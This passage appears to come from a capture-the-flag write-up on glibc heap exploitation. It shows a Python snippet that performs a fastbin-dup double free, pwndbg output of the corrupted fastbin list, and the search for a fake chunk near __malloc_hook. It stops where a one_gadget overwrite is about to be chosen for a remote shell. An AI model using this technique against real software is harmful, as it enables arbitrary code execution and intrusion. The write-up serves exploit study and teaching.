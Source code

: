 ```python
# =-=-=- Fastbin-dup =-=-=-
# Assign 0x70-sized chunk
dup = create(3, 'dup')
log.info(f'dup index: {dup}')

# double free
delete(dup)
delete(guard)
delete(dup, overflow=True)
```

Now the fastbins list look like this, meaning we've successfully performed a fastbin dup.

```
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x55555575a120 —▸ 0x55555575a0b0 ◂— 0x55555575a120
0x80: 0x0
```

### Wrapping up
All that's left is to hijack the flow of execution and drop a shell remotely. Because we're dealing with traditional fastbins, we need to account for a size-field integrity check when linking fake chunks into the fastbins. Hence, we need to make sure our chunks used for our fastbin dup are 0x70-sized because we can forge fake chunks with size `0x7f` near the `__malloc_hook`. Pwndbg has a nice command to automate this: `find_fake_fast`:

```
pwndbg> find_fake_fast &__malloc_hook
FAKE CHUNKS
Fake chunk | Allocated chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x7ffff7dd1aed
prev_size: 0xfff7dd0260000000
size: 0x7f
fd: 0xfff7a92ea0000000
bk: 0xfff7a92a7000007f
fd_nextsize: 0x7f
bk_nextsize: 0x00
```

`0x7ffff7dd1aed` can be used as the address of our fake chunk. Calculating the distance from the `__malloc_hook`:

```
pwndbg> distance &__malloc_hook 0x7ffff7dd1aed
0x7ffff7dd1b10->0x7ffff7dd1aed is -0x23 bytes
```

After linking our fake chunk at the above address into the fastbins, we can finally overwrite `__malloc_hook` with a one_gadget (since we don't directly control arguments to `calloc`). I used the second one:
 